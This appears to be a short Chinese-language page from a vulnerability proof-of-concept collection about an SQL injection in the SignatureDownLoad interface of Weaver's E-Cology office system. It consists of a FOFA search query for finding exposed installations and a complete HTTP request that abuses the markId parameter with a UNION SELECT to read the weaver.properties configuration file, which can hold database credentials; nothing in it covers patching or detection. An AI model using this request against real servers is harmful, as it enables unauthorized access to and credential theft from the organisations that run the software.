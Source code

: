 ## 泛微E-Cology系统接口SignatureDownLoad存在SQL注入漏洞

## fofa
```
app="泛微-OA（e-cology）"
```

## poc
```
GET /weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```

![3597e4a40959cd3638fb62bcdf38b282](../../images/39a01c4b-3697-4c83-8840-cdb444ff38ce.png)
